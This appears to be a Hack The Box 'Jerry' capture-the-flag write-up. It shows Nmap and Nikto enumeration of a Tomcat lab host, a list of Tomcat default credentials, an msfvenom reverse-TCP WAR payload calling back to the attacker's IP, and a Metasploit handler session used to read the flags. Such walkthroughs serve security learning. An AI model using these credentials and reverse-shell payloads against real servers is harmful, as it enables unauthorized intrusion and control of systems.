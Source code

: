 ```yaml
---
published: false
---
```

![htb_jerry.png]({{site.baseurl}}/_posts/htb_jerry.png)


### Htb - Writeup

## 1. Enumeration

Nmap
```ruby
# nmap -sC -sV -oA htb 10.10.10.95

Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-17 07:13 EDT
Nmap scan report for 10.10.10.95
Host is up (0.19s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```
* Discovered Apache Tomcat/7.0.88 on port 8080

Nikto
```ruby
# nikto -h 10.10.10.95:8080

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.95
+ Target Hostname:    10.10.10.95
+ Target Port:        8080
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server leaks inodes via ETags, header found with file /favicon.ico, fields: 0xW/21630 0x1525691762000
+ OSVDB-39272: favicon.ico file identifies this server as: Apache Tomcat
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.

```

* Discovered Apache Tomcat and JSP vulnerability 

## 2. Navigate to 10.10.10.95:8080
![8080.jpg]({{site.baseurl}}/_posts/8080.jpg)

access: http://10.10.10.95:8080/manager/html "Manager App" 

Username: tomcat
Password: s3cret

```ruby
list of Apache Default Credentials 
Username Password
admin 	password
admin 	
admin 	Password1
admin 	password1
admin 	admin
admin 	tomcat
both 	tomcat
manager manager
role1 	role1
role1 	tomcat
role 	changethis
root 	Password1
root 	changethis
root 	password
root 	password1
root 	r00t
root 	root
root 	toor
tomcat 	tomcat
tomcat 	s3cret
tomcat 	password1
tomcat 	password
tomcat 	
tomcat 	admin
tomcat 	changethis
```
source: https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown


## 3. Attack Vector
utilizing a specialied WAR file we can upload to the server and access a .jsp that will allow access to the system

![war.jpg]({{site.baseurl}}/_posts/war.jpg)

Crafting WAR file:
tools: msfvenom
```ruby
msfvenom -p payload/windows/shell/reverse_tcp  LHOST=10.10.13.75 LPORT=9000 -f war -o war.war
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of war file: 52304 bytes
Saved as: war.war
```
extract file:
```ruby
jar -xvf war.war 
created: META-INF/
inflated: META-INF/MANIFEST.MF
created: WEB-INF/
inflated: WEB-INF/web.xml
inflated: yewdmyrhyi.jsp
```
* Extracted .jsp will be coded by msfvenom and will change. The war.war will be uploaded via the deployment section. Before accessing .jsp creation of listener is required.

# 4. Setup Listener
tool: msf
```ruby
msfdb run
```
* quick way to start postgres and metasploit framework

after initilzation:
```ruby
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST LOCALIP
set LPORT 9000
exploit
```

Access: http://10.10.10.95/war/yewdmyrhyi.jsp
* wait for reverse tcp connection

```ruby
[*] Started reverse TCP handler on 10.10.13.75:9002
[*] Sending stage (179779 bytes) to 10.10.10.95
[*] Meterpreter session 1 opened (10.10.13.75:9002 -> 10.10.10.95:49200) at 2018-10-17 06:52:41 -0400
msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > dir
Listing: C:\apache-tomcat-7.0.88
================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  57896  fil   2018-05-07 07:16:00 -0400  LICENSE
100666/rw-rw-rw-  1275   fil   2018-05-07 07:16:00 -0400  NOTICE
100666/rw-rw-rw-  9600   fil   2018-05-07 07:16:00 -0400  RELEASE-NOTES
100666/rw-rw-rw-  17454  fil   2018-05-07 07:16:00 -0400  RUNNING.txt
40777/rwxrwxrwx   8192   dir   2018-06-18 21:06:55 -0400  bin
100666/rw-rw-rw-  0      fil   2018-10-17 13:38:59 -0400  cd
40777/rwxrwxrwx   4096   dir   2018-06-18 23:47:35 -0400  conf
40777/rwxrwxrwx   8192   dir   2018-06-18 21:06:55 -0400  lib
40777/rwxrwxrwx   8192   dir   2018-10-17 13:29:45 -0400  logs
100666/rw-rw-rw-  113    fil   2018-10-17 13:38:58 -0400  shell
40777/rwxrwxrwx   4096   dir   2018-10-17 13:55:19 -0400  temp
40777/rwxrwxrwx   4096   dir   2018-10-17 13:55:15 -0400  webapps
40777/rwxrwxrwx   0      dir   2018-06-18 21:34:12 -0400  work
```

Navigate to flag: C:\Users\Administrator\Desktop\flags
read file with `meterpreter > cat "2 for the price of 1.txt"`

## 5. Final Thoughts
As a beginner level box there is a wide assortment of things that can be learned. From discovering/exploiting the PUT .jsp within Apatche Tomcat, along with the complexity of standard CVE scripts could not be used due to the nature of how the server was set up. All these tasks could have been streamlined within the Metasploit Framework but it's best practice to use msfvenom and craft payloads while understanding how exactly they will function.


-exec@will

## 6. Further Learning/Sources:

- [http://blog.opensecurityresearch.com/2012/09/manually-exploiting-tomcat-manager.html](http://blog.opensecurityresearch.com/2012/09/manually-exploiting-tomcat-manager.html)
- [https://pentestlab.blog/2012/08/26/using-metasploit-to-create-a-war-backdoor/](https://pentestlab.blog/2012/08/26/using-metasploit-to-create-a-war-backdoor/)
- [https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
- [https://www.windows-commandline.com/read-file-from-command-line/](https://www.windows-commandline.com/read-file-from-command-line/)
